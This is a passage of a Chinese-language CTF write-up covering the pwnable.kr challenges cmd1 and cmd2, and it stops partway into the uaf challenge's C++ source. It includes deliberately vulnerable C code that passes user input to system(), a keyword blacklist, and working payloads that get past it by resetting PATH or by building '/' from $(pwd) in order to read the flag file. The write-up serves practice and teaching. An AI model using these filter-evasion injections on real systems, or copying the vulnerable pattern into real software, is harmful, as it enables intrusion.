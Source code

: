比较常见的绕关键字

```bash
cmd1@pwnable:~$ ./cmd1 'export PATH=/bin;cat fla*'
******
```

# [Toddler's Bottle] cmd2

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

在cmd1的基础上增加了很多过滤，而且把`export`,`PATH`都过滤掉了，考虑用绝对路径来使用命令，但是需要构造 `/`, 根目录下 `pwd` 刚好就是 `/`，所以就好解决了

```bash
cmd2@pwnable:~$ ./cmd2 'cd ..;cd ..;$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'
cd ..;cd ..;$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*
******
```

# [Toddler's Bottle] uaf

```cpp
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
```